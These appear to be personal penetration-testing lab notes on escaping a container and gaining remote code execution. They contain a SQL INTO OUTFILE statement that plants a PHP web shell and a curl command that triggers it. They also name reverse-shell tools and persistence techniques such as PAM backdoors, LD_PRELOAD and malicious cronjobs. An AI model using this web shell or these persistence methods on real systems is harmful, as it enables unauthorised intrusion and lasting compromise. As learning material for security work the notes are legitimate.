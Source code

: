 
Now there are several ways to escape a container, all typically stemming from misconfigurations of the container from services or access controls.

[https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html)

This is the code that will help us to create or can see help us to inject our php code that we can trigger to get the RCE vulnerability.

```sql
select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';
```

![[Pasted image 20240215205743.png]]

```bash
curl 192.168.100.1:8080/shell.php?cmd=whoami
```

![[Pasted image 20240219000458.png]]
this means that the code is inserted successfully in the database and we can access it through the curl command that means we have to upload a reverse shell (i.e. bash in our case and will try to trigger it and get a shell from it)

One thing to keep in mind that: How to get a reverse shell on a box once you have RCE: netcat bash python perl

So what to do after we gained a decent foothold and have a stable shell. Like we don't want to lose our foothold and redo the work if the machine is reset or our shell get's terminated.

SO different methods for persistence: LD_PRELOAD Backdoored binaries PAM backdoor SSH keys Malicious Services Cronjob Credential harvesting

